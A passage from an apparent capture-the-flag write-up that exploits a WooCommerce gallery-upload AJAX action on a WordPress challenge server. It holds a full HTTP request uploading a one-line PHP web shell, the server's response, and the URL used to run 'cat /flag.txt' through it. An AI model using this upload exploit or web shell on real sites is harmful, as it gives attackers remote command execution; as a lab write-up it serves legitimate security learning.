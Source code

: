 ```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: challenge.nahamcon.com:port
Cookie: wordpress_b1fc8e0fa54a56c9a22d3b9c2fe67c92=admin-starlord%7C1716846545%7CumCgWrWQc1muc3GhFyIJpzpPbfCUIinVqP6KEeeMKQX%7Cf3f986009f4f4d1185ed6728024ca7ed031c5a2e0d7fa2911ce0352e9f7a943b
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoUIWKzm0piFTNvbB
Content-Length: 396

------WebKitFormBoundaryoUIWKzm0piFTNvbB
Content-Disposition: form-data; name="action"

set_gallery_picture
------WebKitFormBoundaryoUIWKzm0piFTNvbB
Content-Disposition: form-data; name="product_id"

1
------WebKitFormBoundaryoUIWKzm0piFTNvbB
Content-Disposition: form-data; name="gallery_picture"; filename="starlord.php"

<?php if (isset($_GET['cmd'])) system($_GET['cmd']); ?>
------WebKitFormBoundaryoUIWKzm0piFTNvbB--
```

If the error message changes it means the code went one level deeper at least, here’s the response:

```
{"success":false,"message":"Error adding attachment to Woocommerce product."}0
```

Regardless of the message, we know the file has already been uploaded, so we can just navigate to starlord.php and add the correct parameter:


![Flag for testing](https://i.imgur.com/ikUhXeF.png)


```
/wp-content/uploads/woo-gallery/starlord.php?cmd=cat /flag.txt
```

